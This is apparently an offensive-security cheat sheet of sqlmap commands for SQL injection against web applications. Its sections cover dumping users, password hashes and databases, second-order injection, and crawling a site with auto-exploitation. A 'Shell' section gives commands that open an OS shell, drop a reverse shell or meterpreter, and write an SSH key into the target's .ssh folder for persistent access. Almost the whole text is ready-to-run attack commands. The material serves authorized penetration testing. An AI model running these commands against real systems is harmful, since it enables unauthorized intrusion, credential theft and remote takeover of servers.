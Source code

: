 ```c
```

## SQL injection using SQLmap

### Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### Load a request file and use mobile user-agent

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### Second order injection

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```

### Crawl a website with SQLmap and auto-exploit

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
